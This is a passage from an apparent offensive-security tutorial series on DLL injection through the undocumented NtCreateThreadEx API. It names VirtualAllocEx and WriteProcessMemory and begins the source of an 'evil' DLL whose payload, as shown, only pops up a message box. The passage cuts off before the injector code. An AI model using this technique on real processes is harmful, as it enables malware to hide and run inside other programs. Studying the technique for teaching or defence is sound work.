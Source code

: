 \newpage
\subsection{21. DLL injection via undocumented NtCreateThreadEx. Simple C++ example.}

﷽

![dll injection](./images/29/2021-12-07_00-41.png){width="80%"}    

In the previous sections I wrote about classic DLL injection [via CreateRemoteThread](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html), [via SetWindowsHookEx](https://cocomelonc.github.io/tutorial/2021/11/25/malware-injection-7.html).   

Today I'll consider another DLL injection technique. Its meaning is that we are using an undocumented function `NtCreateThreadEx`. So let's go to show how to inject malicious DLL into the remote process by leveraging a Win32API functions `VirtualAllocEx`, `WriteProcessMemory`, `WaitForSingleObject` and an officially undocumented Native API `NtCreateThreadEx`.    

First of all, let's take a look at example C++ source code of our malicious DLL (`evil.c`):    

```cpp
/*
DLL example for DLL injection via NtCreateThreadEx
author: @cocomelonc
https://cocomelonc.github.io/pentest/2021/12/06/malware-injection-9.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call)  {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
```